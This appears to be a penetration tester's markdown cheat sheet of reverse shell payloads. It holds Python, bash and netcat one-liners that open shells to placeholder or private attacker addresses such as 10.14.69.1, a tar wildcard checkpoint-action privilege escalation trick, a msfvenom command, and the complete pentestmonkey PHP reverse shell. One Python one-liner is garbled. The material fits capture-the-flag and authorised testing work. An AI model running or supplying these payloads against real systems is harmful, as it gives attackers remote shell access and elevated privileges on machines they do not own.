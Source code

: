 - base64

````python
#!/usr/bin/python3  
from os import dup2  
from subprocess import run  
import socket  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("LOCAL_IP",1234))   
dup2(s.fileno(),0)   
dup2(s.fileno(),1)   
dup2(s.fileno(),2)   
run(["/bin/bash","-i"])
````

---

- OS

```python
import os

def choice(a):

	os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ATTCK PORT>/tmp/f")
```

---

- Edit an script running in a crontab:

```bash
bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1
```

---

- How to stabilise a shell:
````shell
python -c "import pty; pty.spawn('/bin/bash')" 
python3 -c "import pty; pty.spawn('/bin/bash')"
/bin/bash -i #if there is no python installed
````

---

- Python

```python
...#whatever it does before
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,s.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]));'

# other option
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_HOST PORT >/tmp/f" > twasBrillig.sh
```

---

- Bash

```sh
echo "#!/bin/bash bash -i >& /dev/tcp/10.14.69.1/999 0>&1" > backup.sh
```

---

- If you see that running `sudo -l` someone is using a wildcard like:

![](./img/Pasted%20image%2020240210151540.png)

- Run the following:

```shell
msfvenom -p cmd/unix/reverse_netcat lhost=IP_ATTCK lport=PORT R
```

- Which gives us the exploit:

```shell
mkfifo /tmp/fmkltf; nc 10.14.69.1 1234 0</tmp/fmkltf | /bin/sh >/tmp/fmkltf 2>&1; rm /tmp/fmkltf
```

- Steps:
	1. Copy the reverse shell on the remote host
	2. Run the action when the checkpoint is reached: `echo "" > "--checkpoint-action=exec=sh shell.sh"`
	3. Show progress message every record: `echo "" > --checkpoint=1`
	4. Set up a listener on your local machine

---

- [PentestMokey shells](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net


set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

---